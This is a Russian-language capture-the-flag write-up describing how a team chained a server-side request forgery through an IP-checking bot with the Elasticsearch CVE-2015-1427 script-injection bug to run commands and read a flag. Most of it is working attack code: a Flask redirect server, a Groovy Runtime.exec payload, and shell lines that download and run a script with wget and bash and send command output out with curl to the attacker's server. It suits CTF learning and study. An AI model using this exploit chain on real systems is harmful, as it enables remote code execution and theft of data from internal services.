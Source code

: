 1. Обратили внимание на ссылки вида href="/show?id=q=_id:4" и подсказку в описании задачи о быстром поиске, про эластик мы поняли сииильно позже.
2. Чекалку ip натравили на свой сервак, получили инфу что прилажка на руби и реально ходит туда куда сказали
3. Дернулли постом /show?id=q=_id:5 получили 400 - поняли что там сенатра 
4. Погуглили rce увидили только две на path traversal и на xss через 400-ку. Потеряли много времени в попытке их реализовать.
5. Дошло наконец-то про эластик, полгуглили на тему elastic rce, нашли https://github.com/t0kx/exploit-CVE-2015-1427/blob/master/exploit.sh
6. Проверили что бот реагирует на редиректы
7. Написали простенький сервер и bash скрипт
```python 
#!/usr/bin/python
from flask import Flask, request
from flask import Response
import requests
import sys
import requests, json

search = lambda p: requests.get("http://89.163.129.121:5000/check/_search", params={"source": json.dumps(p)}).text

app = Flask(__name__)

url = ""

@app.route("/save/<path:path>", methods=['POST', 'PUT'])
def saver(path):
    with open(path, 'wb') as f:
        f.write(request.stream.read().decode('base64'))
    return "saved"

@app.route("/cmd")
def cmd():
    with open('cmd', 'r') as cmd:
        resp = cmd.read()
    return resp

@app.route("/")
def hello():
    resp = Response('redirect')
    resp.headers['Location'] = url
    return resp, 302

@app.route("/check/<path:path>")
def check(path):
    global url
    url = 'http://127.0.0.1:9200/'+ path +'?' + request.query_string.decode()
    req = requests.post("http://users.ctf2019.rocks/checkip", data={"ip":"http://89.163.129.121:5000"})
    return req.text, req.status_code

def inject(cmd):
    payload = {
        "script_fields": {
            "infophp": {
                "script":
                    '''java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("%s").getText()''' % cmd
            }
         }
    }
    search(payload)

if __name__ == "__main__":
    if sys.argv[1] == 'start':
	app.run(host='0.0.0.0', port=5000, threaded=True)
    else:
        inject(sys.argv[1])
```
```bash

echo "$1 | base64 | curl -d @- http://89.163.129.121:5000/save/output" > cmd
./users.py 'wget -O /tmp/very_secret_path http://89.163.129.121:5000/cmd'; ./users.py 'bash /tmp/very_secret_path '
cat output
```
7. В run.sh увидели путь к исходнику в котором был доп
9. Вытянули второй доп из эластика
```bash
./exec.sh 'curl http://localhost:9200/_cat/indices?v'
health status index   pri rep docs.count docs.deleted store.size pri.store.size
yellow open   users     5   1         10            0     16.9kb         16.9kb
yellow open   secrets   5   1          1            0      3.1kb          3.1kb

./exec.sh 'curl http://localhost:9200/secrets/_search'
{"took":1,"timed_out":false,"_shards":{"total":5,"successful":5,"failed":0},"hits":{"total":1,"max_score":1.0,"hits":[{"_index":"secrets","_type":"secret","_id":"1","_score":1.0,"_source":{"flag":"WGCTF{B0AFB09FAC06F96059631AD5D5F0D377}"}}]}}
```

 
